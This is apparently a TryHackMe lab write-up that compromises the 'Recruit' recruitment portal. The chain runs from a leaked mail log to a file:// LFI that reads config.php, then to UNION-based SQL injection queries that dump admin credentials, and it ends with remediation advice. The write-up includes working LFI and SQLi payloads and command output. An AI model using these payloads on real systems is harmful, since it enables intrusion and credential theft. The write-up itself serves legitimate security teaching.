# TryHackMe — Recruit: Full Compromise via LFI → Credential Harvesting → SQL Injection

**Target:** Recruit (recruitment portal)
**Flags captured:** `THM{LOGGED_IN_USER}` (HR access) · `THM{LOGGED_IN_ADM1N1}` (Admin access)
**Vulnerability chain:** LFI → Credential Harvesting → Authentication Bypass → SQL Injection

---

## Overview

This box simulates a recruitment portal exposing multiple, individually exploitable flaws that chain together into a full compromise — from an unauthenticated file read all the way to admin-level access to the application's SQL database. The interesting part of this box isn't any single vulnerability; it's how a small information leak in one place (a world-readable log file) becomes the roadmap for every step that follows.

---

## Phase 1: Reconnaissance & Enumeration

### Port Scanning

I started by doing a **full port scan** with `nmap` to make sure I was checking all open ports, not just the common ones:

```bash
nmap -p- 10.113.140.24
```

**Results:**
```
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http   <-- most interesting
```



I focused on port 80 because it was the most likely to give me access to a web application.

### Directory Fuzzing

I used `gobuster` to find hidden files and directories:

```bash
gobuster dir -u http://10.113.140.24/ -w /usr/share/wordlists/dirb/common.txt
```

**Results:**
```
/mail                 (Status: 301) [Size: 313] --> /mail/
/phpmyadmin           (Status: 301) [Size: 319] --> /phpmyadmin/
/server-status        (Status: 403) [Size: 278]
/sitemap.xml          (Status: 200) [Size: 1710]
```




### The Roadmap: `/mail/mail.log`

`/mail/` had **directory listing enabled**, exposing a file called `mail.log`. This single misconfiguration turned out to be the most valuable find of the entire engagement.



The log contained an internal email from the HR/IT deployment team:

> - HR login credentials (username: `hr`) are currently stored in the application configuration file (`config.php`) for ease of access during the initial rollout phase.
> - Administrator credentials are **NOT** stored in the application files and are securely maintained within the backend database.

This single log entry confirmed the accuracy of the approach and clearly laid out the roadmap for the rest of the attack:
- **HR account** → reachable via a file read (LFI), since the password lives in `config.php`.
- **Admin account** → only reachable through the database, meaning **SQL Injection** would be the only path to it, and only after authenticating as HR first.



---

## Phase 2: LFI → Credential Harvesting

The application exposed a file-fetching endpoint intended for downloading candidate CVs:

```
/file.php?cv=<URL>
```

Since the log had already pointed me toward `config.php`, I used the `file://` wrapper to read it directly off the server instead of an actual CV URL:

```bash
curl -s "http://10.113.140.24/file.php?cv=file:///var/www/html/config.php"
```

**Result:**
```php
$APP_NAME    = 'Recruit';
$APP_ENV     = 'production';
$APP_VERSION = '1.2.4';
$APP_DEBUG   = false;

$HR_PASSWORD = 'hrpassword123';
```





Logged in with `hr` / `hrpassword123` → **Flag 1 captured: `THM{LOGGED_IN_USER}`**



---

## Phase 3: SQL Injection → Admin Access

With HR access, a "Search candidate name" field on the dashboard turned out to be injectable.

### Finding the Column Count

```sql
' UNION SELECT 1,2,3-- -
```
→ `SQL Error: The used SELECT statements have a different number of columns`

**Why this error appeared:** `UNION` combines two result sets as if they were one table, so both sides of the `UNION` must return the same number of columns. The error meant my guess of 3 columns didn't match the original query.

```sql
' UNION SELECT NULL,NULL,NULL,NULL-- -
```
This one worked — confirming the query returns **4 columns**.



**Why `NULL` specifically?** At the column-count stage, data type doesn't matter yet. `NULL` is compatible with any column type, so it's a safe placeholder while you're still figuring out the structure of the query.

### Extracting the Database Structure

**Database and table names:**
```sql
' UNION SELECT 1,database(),group_concat(table_name),4
  FROM information_schema.tables WHERE table_schema=database()-- -
```

**Columns in the `users` table:**
```sql
' UNION SELECT 1,2,group_concat(column_name),4
  FROM information_schema.columns WHERE table_name='users'-- -
```

**Dumping admin credentials:**
```sql
' UNION SELECT 1,2,group_concat(username,0x3a,password),4
  FROM users-- -
```

**Result:** `admin:admin@001admin`



Logged in as `admin` → **Flag 2 captured: `THM{LOGGED_IN_ADM1N1}`**



---

## Vulnerability Chain Summary

```
LFI  →  Credential Harvesting  →  Authentication Bypass  →  SQL Injection  →  Full Admin Access
```

No single vulnerability here was catastrophic on its own — the real risk was that each weak point fed directly into the next. This is a good reminder that a proper security review has to look at how findings *combine*, not just rate each one in isolation.

---

## Remediation

### 1. Local File Inclusion (LFI)

Disabling `allow_url_fopen` is a good hardening step — it reduces the exposed attack surface — but it does **not** fix this vulnerability. That setting only blocks the wrapper from fetching *remote* URLs (`http://`, `ftp://`); it does nothing against the `file://` wrapper used here to read a **local** file.

The actual root-cause fix is an **Allowlist**: instead of taking a file path directly from user input (`$_GET['cv']`), the application should map a fixed identifier (an ID) to a predefined, safe file — making it impossible for user input to influence which file gets read.

### 2. SQL Injection

**Prepared Statements** (via PDO) prevent this class of vulnerability because they completely separate the SQL command from the user-supplied data. The database engine knows in advance which part is "code" and which part is "data," so injected SQL syntax is treated as a literal string rather than executable logic.

### 3. Hardcoded Credentials

The problem with hardcoded credentials goes far beyond "the password was weak." Even a complex, 50-character password stored directly in a file like `config.php` or `db.php` is a security and organizational risk for several independent reasons:

- **Code Visibility** — placing sensitive data in a source file assumes only authorized people will ever see that code. That assumption breaks the moment the code is shared with another developer, a freelancer, or backed up somewhere less controlled than expected.

- **Git History** — a version control system like Git is designed to keep a permanent record of every change ever made. Removing a password from the *current* version of a file does **not** remove it from the project's history — anyone with repository access can still recover it from an old commit. **A credential that has ever been committed to Git must be treated as compromised and rotated immediately**, regardless of whether it was later deleted from the file.

- **Hard Rotation** — best practice calls for rotating credentials periodically (e.g., every 90 days) or immediately after a suspected breach. When a credential is embedded in code, "rotating" it means editing the source file, committing the change, testing that nothing broke, and deploying a new build — just to change one password. An environment variable, by contrast, can be rotated by changing a single value with no code change or redeploy required.

- **Environment Mixing** — the same codebase typically has to run in more than one environment (local development, staging, production). When credentials are hardcoded, this creates two real dangers:
  1. **Production data disaster** — a developer testing on `localhost` who forgets to swap the password can end up running test operations directly against real, production customer data — potentially corrupting or deleting it.
  2. **Bad architecture** — the code ends up needing complex `if/else` logic to figure out *which* environment it's running in, instead of letting the runtime environment itself (via a `.env` file) simply provide the right configuration from outside the codebase.

**Patching:** Add `.env` to `.gitignore` from day one, so credentials never enter version control in the first place — there is no reliable way to "clean" a secret out of Git history after the fact.

---

## Lessons Learned

- A single overlooked file (a log with directory listing enabled) can hand an attacker the entire attack roadmap for free — recon on "boring" files matters as much as recon on the application itself.
- `UNION`-based SQLi enumeration is systematic: confirm the column count first, then walk `information_schema` before touching real tables.
- Fixing the *symptom* of a vulnerability (like disabling a related config flag) is not the same as fixing its *root cause* (like validating input against an allowlist) — a report should always distinguish between the two.
